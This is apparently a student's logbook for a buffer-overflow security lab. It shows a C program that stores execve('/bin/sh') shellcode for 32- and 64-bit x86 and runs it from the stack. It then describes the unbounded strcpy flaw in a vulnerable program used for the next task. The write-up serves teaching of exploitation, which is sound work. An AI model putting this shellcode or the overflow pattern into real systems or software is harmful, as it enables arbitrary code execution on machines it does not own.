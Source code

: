 One of the ways we can do that is by using the binary code generated from the code above:

```c
// call_shellcode.c

// Shellcode is CPU-architecture dependent (32-bit or 64-bit)
const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
  char code[500];
  strcpy(code, shellcode); // Copy the shellcode to the stack
  int (*func)() = (int(*)())code;
  func(); // Invoke the shellcode from the stack
  return 1;
}
```

If we compile `call_shellcode.c` using `make`, two versions of binary files will be available to execute: `a32.out` (32-bit) and `a64.out` (64-bit). Afterwards, choosing either one of them to compile, will run a shell interface and we will be able to interact with it using shell commands.

<img src="images/LOGBOOK5/task1_image.png" width="400" alt="printenv"/>

Image 1: Compiling and running the 32-bit shellcode

> Note: Makefile compiles the program with `execstack` option, allowing our code to be executed from the stack. Otherwise, the exploit would've failed.

## Task 2: Understanding the Vulnerable Program

In the second task, we are asked to exploit a buffer-overflow vulnerability. To succeed in this task, we are given a vulnerable program, `stack.c`, where a big buffer gets its contents copied to a smaller size buffer with no restrictions of neither inputs nor content size. In other words, `strcpy()` doesn't check if `BUF_SIZE` is bigger than the content capacity, leading to overflow of string (or possibly malicious code) to a restricted area of the stack.
